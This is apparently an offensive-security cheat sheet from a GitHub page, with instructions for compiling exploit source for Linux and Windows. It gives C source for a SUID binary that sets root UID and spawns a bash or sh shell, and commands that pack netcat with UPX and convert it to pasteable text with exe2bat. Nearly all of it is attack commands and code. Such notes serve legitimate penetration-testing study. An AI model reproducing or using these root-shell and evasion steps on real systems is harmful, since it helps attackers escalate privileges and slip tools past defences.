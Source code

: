 # Compiling

### Platform ID

Windows

```text
process.h, string.h, winbase.h, windows.h, winsock2.h
```

Linux

```text
arpa/inet.h, fcntl.h, netdb.h, netinet/in.h,
sys/sockt.h, sys/types.h, unistd.h
```

### Linux Compiling

```bash
#basic
gcc -o exploit exploit.c

#32 bit on 64 bit
gcc -m32 exploit.c -o exploit
```

### Windows Cross Compiling

```bash
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe

#64 bit
i686-w64-mingw32-gcc exploit.c -o exploit

#32 bit
i686-w64-mingw32-gcc 40564.c -o 40564 -lws2_32
```

### SUID Binary

SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

SUID C Shell

```c
//bash
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}

//sh
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}

gcc -o suid suid.c
gcc -m32 -o suid suid.c //32 bit
```

### Packing Files

```bash
#Ultimate Packer for eXecutables
upx -9 nc.exe

#exe2bat - Converts EXE to a text file that can be copied and pasted
locate exe2bat
wine exe2bat.exe nc.exe nc.txt
```

